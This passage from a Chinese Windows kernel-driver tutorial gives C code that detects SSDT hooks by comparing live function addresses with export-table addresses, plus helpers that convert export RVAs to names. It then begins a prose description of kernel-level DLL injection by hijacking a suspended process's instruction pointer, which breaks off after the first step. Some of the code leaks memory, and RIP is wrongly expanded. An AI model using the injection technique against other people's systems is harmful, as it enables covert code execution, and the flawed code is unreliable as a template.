### 9.6 内核扫描SSDT挂钩状态

在笔者上一篇文章`《内核实现SSDT挂钩与摘钩》`中介绍了如何对`SSDT`函数进行`Hook`挂钩与摘钩的，本章将继续实现一个新功能，如何`检测SSDT`函数是否挂钩，要实现检测`挂钩状态`有两种方式，第一种方式则是类似于`《摘除InlineHook内核钩子》`文章中所演示的通过读取函数的前16个字节与`原始字节`做对比来判断挂钩状态，另一种方式则是通过对比函数的`当前地址`与`起源地址`进行判断，为了提高检测准确性本章将采用两种方式混合检测。

具体原理，通过解析内核文件`PE结构`找到导出表，依次计算出每一个内核函数的`RVA`相对偏移，通过与内核`模块基址`相加此相对偏移得到函数的原始地址，然后再动态获取函数当前地址，两者作比较即可得知指定内核函数是否被挂钩。

在实现这个功能之前我们需要解决两个问题，第一个问题是如何得到特定内核模块的`内存模块基址`此处我们需要封装一个`GetOsBaseAddress()`用户只需要传入指定的内核模块即可得到该模块基址，如此简单的代码没有任何解释的必要；
```c
#include <ntifs.h>
#include <ntimage.h>
#include <ntstrsafe.h>

typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

// 得到内核模块基址
ULONGLONG GetOsBaseAddress(PDRIVER_OBJECT pDriverObject, WCHAR *wzData)
{
    UNICODE_STRING osName = { 0 };
    // WCHAR wzData[0x100] = L"ntoskrnl.exe";
    RtlInitUnicodeString(&osName, wzData);

    LDR_DATA_TABLE_ENTRY *pDataTableEntry, *pTempDataTableEntry;
    //双循环链表定义
    PLIST_ENTRY    pList;
    //指向驱动对象的DriverSection
    pDataTableEntry = (LDR_DATA_TABLE_ENTRY*)pDriverObject->DriverSection;
    //判断是否为空
    if (!pDataTableEntry)
    {
        return 0;
    }

    //得到链表地址
    pList = pDataTableEntry->InLoadOrderLinks.Flink;

    // 判断是否等于头部
    while (pList != &pDataTableEntry->InLoadOrderLinks)
    {
        pTempDataTableEntry = (LDR_DATA_TABLE_ENTRY *)pList;
        if (RtlEqualUnicodeString(&pTempDataTableEntry->BaseDllName, &osName, TRUE))
        {
            return (ULONGLONG)pTempDataTableEntry->DllBase;
        }
        pList = pList->Flink;
    }
    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    ULONGLONG kernel_base = GetOsBaseAddress(Driver, L"ntoskrnl.exe");
    DbgPrint("ntoskrnl.exe => 模块基址: %p \n", kernel_base);

    ULONGLONG hal_base = GetOsBaseAddress(Driver, L"hal.dll");
    DbgPrint("hal.dll => 模块基址: %p \n", hal_base);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
如上直接编译并运行，即可输出`ntoskrnl.exe`以及`hal.dll`两个内核模块的基址；



其次我们还需要实现另一个功能，此时想像一下当我告诉你一个内存地址，我想要查该内存地址属于哪个模块该如何实现，其实很简单只需要拿到这个地址依次去判断其是否大于等于该模块的基地址，并小于等于该模块的结束地址，那么我们就认为该地址落在了此模块上，在这个思路下`LyShark`实现了以下代码片段。
```c
#include <ntifs.h>
#include <ntimage.h>
#include <ntstrsafe.h>

typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

// 扫描指定地址是否在某个模块内
VOID ScanKernelModuleBase(PDRIVER_OBJECT pDriverObject, ULONGLONG address)
{
    LDR_DATA_TABLE_ENTRY *pDataTableEntry, *pTempDataTableEntry;
    PLIST_ENTRY pList;
    pDataTableEntry = (LDR_DATA_TABLE_ENTRY*)pDriverObject->DriverSection;
    if (!pDataTableEntry)
    {
        return;
    }

    // 得到链表地址
    pList = pDataTableEntry->InLoadOrderLinks.Flink;

    // 判断是否等于头部
    while (pList != &pDataTableEntry->InLoadOrderLinks)
    {
        pTempDataTableEntry = (LDR_DATA_TABLE_ENTRY *)pList;

        ULONGLONG start_address = (ULONGLONG)pTempDataTableEntry->DllBase;
        ULONGLONG end_address = start_address + (ULONG)pTempDataTableEntry->SizeOfImage;

        // 判断区间
        // DbgPrint("起始地址 [ %p ] 结束地址 [ %p ] \n",start_address,end_address);
        if (address >= start_address && address <= end_address)
        {
            DbgPrint("[LyShark] 当前函数所在模块 [ %ws ] \n", (CHAR *)pTempDataTableEntry->FullDllName.Buffer);
        }
        pList = pList->Flink;
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    ScanKernelModuleBase(Driver, 0xFFFFF8051AF5D030);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
我们以`0xFFFFF8051AF5D030`地址为例对其进行判断可看到输出了如下结果，此地址被落在了`hal.dll`模块上；



为了能读入磁盘PE文件到内存此时我们还需要封装一个`LoadKernelFile()`函数，该函数的作用是读入一个内核文件到内存空间中，此处如果您使用前一篇`《内核解析PE结构导出表》`文章中的内存映射函数来读写则会蓝屏，原因很简单`KernelMapFile()`是映射而映射一定无法一次性完整装载其次此方法本质上还在占用原文件，而`LoadKernelFile()`则是读取磁盘文件并将其完整拷贝一份，这是两者的本质区别，如下代码则是实现完整拷贝的实现；
```c
#include <ntifs.h>
#include <ntimage.h>
#include <ntstrsafe.h>

// 将内核文件装载入内存(磁盘)
PVOID LoadKernelFile(WCHAR *wzFileName)
{
    NTSTATUS Status;
    HANDLE FileHandle;
    IO_STATUS_BLOCK ioStatus;
    FILE_STANDARD_INFORMATION FileInformation;

    // 设置路径
    UNICODE_STRING uniFileName;
    RtlInitUnicodeString(&uniFileName, wzFileName);

    // 初始化打开文件的属性
    OBJECT_ATTRIBUTES objectAttributes;
    InitializeObjectAttributes(&objectAttributes, &uniFileName, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开文件
    Status = IoCreateFile(&FileHandle, FILE_READ_ATTRIBUTES | SYNCHRONIZE, &objectAttributes, &ioStatus, 0, FILE_READ_ATTRIBUTES, FILE_SHARE_READ, FILE_OPEN, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0, CreateFileTypeNone, NULL, IO_NO_PARAMETER_CHECKING);
    if (!NT_SUCCESS(Status))
    {
        return 0;
    }

    // 获取文件信息
    Status = ZwQueryInformationFile(FileHandle, &ioStatus, &FileInformation, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation);
    if (!NT_SUCCESS(Status))
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 判断文件大小是否过大
    if (FileInformation.EndOfFile.HighPart != 0)
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 取文件大小
    ULONG64 uFileSize = FileInformation.EndOfFile.LowPart;

    // 分配内存
    PVOID pBuffer = ExAllocatePoolWithTag(NonPagedPool, uFileSize + 0x100, (ULONG)"LyShark");
    if (pBuffer == NULL)
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 从头开始读取文件
    LARGE_INTEGER byteOffset;
    byteOffset.LowPart = 0;
    byteOffset.HighPart = 0;
    Status = ZwReadFile(FileHandle, NULL, NULL, NULL, &ioStatus, pBuffer, uFileSize, &byteOffset, NULL);
    if (!NT_SUCCESS(Status))
    {
        ZwClose(FileHandle);
        return 0;
    }

    // ExFreePoolWithTag(pBuffer, (ULONG)"LyShark");
    ZwClose(FileHandle);
    return pBuffer;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    // 加载内核模块
    PVOID BaseAddress = LoadKernelFile(L"\\SystemRoot\\system32\\ntoskrnl.exe");
    DbgPrint("BaseAddress = %p\n", BaseAddress);

    // 解析PE头
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;

    // DLL内存数据转成DOS头结构
    pDosHeader = (PIMAGE_DOS_HEADER)BaseAddress;

    // 取出PE头结构
    pNtHeaders = (PIMAGE_NT_HEADERS)((ULONGLONG)BaseAddress + pDosHeader->e_lfanew);

    DbgPrint("[LyShark] => 映像基址: %p \n", pNtHeaders->OptionalHeader.ImageBase);

    // 结束后释放内存
    ExFreePoolWithTag(BaseAddress, (ULONG)"LyShark");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行如上这段程序，则会将`ntoskrnl.exe`文件载入到内存，并读取出其中的`OptionalHeader.ImageBase`映像基址，如下图所示；



有了上述方法，最后一步就是组合并实现判断即可，如下代码通过对导出表的解析，并过滤出所有的`Nt`开头的系列函数，然后依次对比起源地址与原地址是否一致，得出是否被挂钩，完整代码如下所示；
```c
ULONGLONG ntoskrnl_base = 0;

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    // 加载内核模块
    PVOID BaseAddress = LoadKernelFile(L"\\SystemRoot\\system32\\ntoskrnl.exe");
    DbgPrint("BaseAddress = %p\n", BaseAddress);

    // 获取内核模块地址
    ntoskrnl_base = GetOsBaseAddress(Driver, L"ntoskrnl.exe");

    // 取出导出表
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSectionHeader;
    ULONGLONG FileOffset;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory;

    // DLL内存数据转成DOS头结构
    pDosHeader = (PIMAGE_DOS_HEADER)BaseAddress;
    // 取出PE头结构
    pNtHeaders = (PIMAGE_NT_HEADERS)((ULONGLONG)BaseAddress + pDosHeader->e_lfanew);
    // 判断PE头导出表表是否为空
    if (pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress == 0)
    {
        return 0;
    }

    // 取出导出表偏移
    FileOffset = pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;

    // 取出节头结构
    pSectionHeader = (PIMAGE_SECTION_HEADER)((ULONGLONG)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    PIMAGE_SECTION_HEADER pOldSectionHeader = pSectionHeader;

    // 遍历节结构进行地址运算
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 导出表地址
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数地址
    PULONG AddressOfFunctions;
    FileOffset = pExportDirectory->AddressOfFunctions;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 这里注意一下foa和rva
    AddressOfFunctions = (PULONG)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数名字
    PUSHORT AddressOfNameOrdinals;
    FileOffset = pExportDirectory->AddressOfNameOrdinals;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 注意一下foa和rva
    AddressOfNameOrdinals = (PUSHORT)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数序号
    PULONG AddressOfNames;
    FileOffset = pExportDirectory->AddressOfNames;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 注意一下foa和rva
    AddressOfNames = (PULONG)((ULONGLONG)BaseAddress + FileOffset);

    // 分析导出表
    ULONG uOffset;
    LPSTR FunName;
    ULONG uAddressOfNames;
    ULONG TargetOff = 0;

    for (ULONG uIndex = 0; uIndex < pExportDirectory->NumberOfNames; uIndex++, AddressOfNames++, AddressOfNameOrdinals++)
    {
        uAddressOfNames = *AddressOfNames;
        pSectionHeader = pOldSectionHeader;
        for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
        {
            if (pSectionHeader->VirtualAddress <= uAddressOfNames && uAddressOfNames <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
            {
                uOffset = uAddressOfNames - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
            }
        }
        FunName = (LPSTR)((ULONGLONG)BaseAddress + uOffset);

        if (FunName[0] == 'N' && FunName[1] == 't')
        {
            // 得到相对RVA
            TargetOff = (ULONG)AddressOfFunctions[*AddressOfNameOrdinals];

            // LPSTR -> UNCODE
            // 先转成ANSI 然后在转成 UNCODE
            ANSI_STRING ansi = { 0 };
            UNICODE_STRING uncode = { 0 };

            RtlInitAnsiString(&ansi, FunName);
            RtlAnsiStringToUnicodeString(&uncode, &ansi, TRUE);

            // 得到当前地址
            PULONGLONG local_address = MmGetSystemRoutineAddress(&uncode);

            /*
            // 读入内核函数前6个字节
            unsigned char local_opcode[6] = { 0 };
            unsigned char this_opcode[6] = { 0 };

            RtlCopyMemory(local_opcode, (void *)local_address, 6);
            RtlCopyMemory(this_opcode, (void *)(ntoskrnl_base + TargetOff), 6);

            // 当前机器码
            for (int x = 0; x < 6; x++)
            {
            DbgPrint("当前 [ %d ] 机器码 [ %x ] ", x, local_opcode[x]);
            }

            // 起源机器码
            for (int y = 0; y < 6; y++)
            {
            DbgPrint("起源 [ %d ] 机器码 [ %x ] ", y, this_opcode[y]);
            }

            */

            // 检测是否被挂钩 [不相等则说明被挂钩了]
            if (local_address != (ntoskrnl_base + TargetOff))
            {
                DbgPrint("索引 [ %d ] RVA [ %p ] \n --> 起源地址 [ %p ] | 当前地址 [ %p ] | 函数名 [ %s ] \n\n",
                    *AddressOfNameOrdinals, TargetOff, ntoskrnl_base + TargetOff, local_address, FunName);
            }

            // 检查当前地址所在模块
            // ScanKernelModuleBase(Driver, (PULONGLONG)local_address);
        }
    }

    // 结束后释放内存
    ExFreePoolWithTag(BaseAddress, (ULONG)"LyShark");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
使用ARK工具手动改写几个Nt开头的函数，并运行这段代码，观察是否可以输出被挂钩的函数详情；



### 9.7 PE导出函数与RVA转换

在笔者上篇文章`《内核扫描SSDT挂钩状态》`中简单介绍了如何扫描被挂钩的SSDT函数，并简单介绍了如何解析导出表，本章将继续延申PE导出表的解析，实现一系列灵活的解析如通过传入函数名解析出函数的RVA偏移，ID索引，Index下标等参数，并将其封装为可直接使用的函数，以在后期需要时可以被直接引用，同样为了节约篇幅本章中的`LoadKernelFile()`内存映射函数如需要使用请去前一篇文章中自行摘取。

首先实现`GetRvaFromModuleName()`函数，当用户传入参数后自动将函数名解析为对应的RVA偏移或Index下标索引值，该函数接收三个参数传递，分别是`wzFileName`模块名，`FunctionName`所在模块内的函数名，`Flag`标志参数，函数输出`ULONG64`类型的数据。
```c
// 从指定模块中得到特定函数的RVA或相对序号相对偏移
ULONG64 GetRvaFromModuleName(WCHAR *wzFileName, UCHAR *FunctionName, INT Flag)
{
    // 加载内核模块
    PVOID BaseAddress = LoadKernelFile(wzFileName);

    // 取出导出表
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSectionHeader;
    ULONGLONG FileOffset;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory;

    // DLL内存数据转成DOS头结构
    pDosHeader = (PIMAGE_DOS_HEADER)BaseAddress;

    // 取出PE头结构
    pNtHeaders = (PIMAGE_NT_HEADERS)((ULONGLONG)BaseAddress + pDosHeader->e_lfanew);

    // 判断PE头导出表是否为空
    if (pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress == 0)
    {
        return 0;
    }

    // 取出导出表偏移
    FileOffset = pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;

    // 取出节头结构
    pSectionHeader = (PIMAGE_SECTION_HEADER)((ULONGLONG)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    PIMAGE_SECTION_HEADER pOldSectionHeader = pSectionHeader;

    // 遍历节结构进行地址运算
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 导出表地址
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数地址
    PULONG AddressOfFunctions;
    FileOffset = pExportDirectory->AddressOfFunctions;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfFunctions = (PULONG)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数名字
    PUSHORT AddressOfNameOrdinals;
    FileOffset = pExportDirectory->AddressOfNameOrdinals;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfNameOrdinals = (PUSHORT)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数序号
    PULONG AddressOfNames;
    FileOffset = pExportDirectory->AddressOfNames;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfNames = (PULONG)((ULONGLONG)BaseAddress + FileOffset);

    // 分析导出表
    ULONG uOffset;
    LPSTR FunName;
    ULONG uAddressOfNames;
    ULONG TargetOff = 0;

    for (ULONG uIndex = 0; uIndex < pExportDirectory->NumberOfNames; uIndex++, AddressOfNames++, AddressOfNameOrdinals++)
    {
        uAddressOfNames = *AddressOfNames;
        pSectionHeader = pOldSectionHeader;
        for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
        {
            if (pSectionHeader->VirtualAddress <= uAddressOfNames && uAddressOfNames <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
            {
                uOffset = uAddressOfNames - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
            }
        }
        FunName = (LPSTR)((ULONGLONG)BaseAddress + uOffset);

        // 如果找到则返回RVA
        if (!_stricmp((const char *)FunctionName, FunName))
        {
            // 等于1则返回RVA
            if (Flag == 1)
            {
                TargetOff = (ULONG)AddressOfFunctions[*AddressOfNameOrdinals];
                // DbgPrint("索引 [ %p ] 函数名 [ %s ] 相对RVA [ %p ] \n", *AddressOfNameOrdinals, FunName, TargetOff);
                return TargetOff;
            }
            // 返回索引
            else if (Flag == 0)
            {
                return *AddressOfNameOrdinals;
            }
        }
    }

    // 结束后释放内存
    ExFreePoolWithTag(BaseAddress, (ULONG)"LyShark");
    return 0;
}
```
调用该函数很容易，传入模块路径以及该模块内的函数名，解析出RVA地址或Index下标。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    // 函数分别传入 [模块路径,函数名,标志=1] 返回该导出函数的RVA
    ULONG64 get_rva = GetRvaFromModuleName(L"\\SystemRoot\\system32\\ntoskrnl.exe", "NtReadFile", 1);
    DbgPrint("NtReadFile RVA = %p \n", get_rva);

    // 函数分别传入 [模块路径,函数名,标志=0] 返回该导出函数的ID下标
    ULONG64 get_id = GetRvaFromModuleName(L"\\SystemRoot\\system32\\ntoskrnl.exe", "NtReadFile", 0);
    DbgPrint("NtReadFile ID = %d \n", get_id);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行程序，分别获取到`ntoskrnl.exe`模块内`NtReadFile`函数的RVA,Index索引，调用效果如下；



第二个函数`GetModuleNameFromRVA()`则实现传入RVA或者函数Index序号，解析出函数名，具体实现方法与如上函数基本一致，仅仅只是在过滤时做了调整。
```c
// 根据传入的函数RVA或Index下标，获取该函数的函数名
PCHAR GetModuleNameFromRVA(WCHAR *wzFileName, ULONG64 uRVA, INT Flag)
{
    // 加载内核模块
    PVOID BaseAddress = LoadKernelFile(wzFileName);

    // 取出导出表
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSectionHeader;
    ULONGLONG FileOffset;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory;

    // DLL内存数据转成DOS头结构
    pDosHeader = (PIMAGE_DOS_HEADER)BaseAddress;

    // 取出PE头结构
    pNtHeaders = (PIMAGE_NT_HEADERS)((ULONGLONG)BaseAddress + pDosHeader->e_lfanew);

    // 判断PE头导出表是否为空
    if (pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress == 0)
    {
        return 0;
    }

    // 取出导出表偏移
    FileOffset = pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;

    // 取出节头结构
    pSectionHeader = (PIMAGE_SECTION_HEADER)((ULONGLONG)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    PIMAGE_SECTION_HEADER pOldSectionHeader = pSectionHeader;

    // 遍历节结构进行地址运算
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 导出表地址
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数地址
    PULONG AddressOfFunctions;
    FileOffset = pExportDirectory->AddressOfFunctions;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfFunctions = (PULONG)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数名字
    PUSHORT AddressOfNameOrdinals;
    FileOffset = pExportDirectory->AddressOfNameOrdinals;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfNameOrdinals = (PUSHORT)((ULONGLONG)BaseAddress + FileOffset);

    // 取出导出表函数序号
    PULONG AddressOfNames;
    FileOffset = pExportDirectory->AddressOfNames;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfNames = (PULONG)((ULONGLONG)BaseAddress + FileOffset);

    // 分析导出表
    ULONG uOffset;
    LPSTR FunName;
    ULONG uAddressOfNames;
    ULONG TargetOff = 0;

    for (ULONG uIndex = 0; uIndex < pExportDirectory->NumberOfNames; uIndex++, AddressOfNames++, AddressOfNameOrdinals++)
    {
        uAddressOfNames = *AddressOfNames;
        pSectionHeader = pOldSectionHeader;
        for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
        {
            if (pSectionHeader->VirtualAddress <= uAddressOfNames && uAddressOfNames <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
            {
                uOffset = uAddressOfNames - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
            }
        }

        FunName = (LPSTR)((ULONGLONG)BaseAddress + uOffset);
        TargetOff = (ULONG)AddressOfFunctions[*AddressOfNameOrdinals];

        // 等于1则通过RVA返回函数名
        if (Flag == 1)
        {
            if (uRVA == TargetOff)
            {
                return FunName;
            }
        }
        // 返回索引
        else if (Flag == 0)
        {
            if (uRVA == *AddressOfNameOrdinals)
            {
                return FunName;
            }
        }
    }

    // 结束后释放内存
    ExFreePoolWithTag(BaseAddress, (ULONG)"LyShark");
    return "None";
}
```
调用`GetModuleNameFromRVA()`并传入相应的RVA偏移或Index下标。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PCHAR function_name;

    // 传入函数RVA得到函数名
    function_name = GetModuleNameFromRVA(L"\\SystemRoot\\system32\\ntoskrnl.exe", 0x5e5220, 1);
    DbgPrint("根据RVA得到函数名 = %s \n", function_name);

    // 传入函数下标得到函数名
    function_name = GetModuleNameFromRVA(L"\\SystemRoot\\system32\\ntoskrnl.exe", 1472, 0);
    DbgPrint("根据Index得到函数名 = %s \n", function_name);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译并运行程序，调用后分别获取到`RVA=0x5e5220`或`Index=1472`的函数名；



### 9.8 内核RIP劫持实现DLL注入

本章将探索内核级DLL模块注入实现原理，DLL模块注入在应用层中通常会使用`CreateRemoteThread`直接开启远程线程执行即可，驱动级别的注入有多种实现原理，而其中最简单的一种实现方式则是通过劫持EIP的方式实现，其实现原理可总结为，挂起目标进程，停止目标进程EIP的变换，在目标进程开启空间，并把相关的指令机器码和数据拷贝到里面去，然后直接修改目标进程EIP使其强行跳转到我们拷贝进去的相关机器码位置，执行相关代码后，然后再次跳转回来执行原始指令集。

内核RIP（Return Instruction Pointer）劫持是一种DLL（Dynamic Link Library）注入的实现方法之一，也被称为内核级别的DLL注入。该技术可以在操作系统内核层面实现DLL注入，从而实现对目标进程的代码执行进行操纵或者控制。

RIP劫持的实现过程中，注入代码会替换目标进程中某个指定函数的返回地址，将其指向注入代码的执行路径，从而在目标进程中执行注入代码。这个过程需要通过操作系统内核层级的系统调用或者API来完成，因此需要一定的系统编程和内核级别编程的技能和知识。

具体而言，RIP劫持可以通过以下步骤来实现DLL注入：

 - 找到目标进程中需要被注入的函数的地址和返回地址，可以通过内存映射和内存分析等手段来实现。
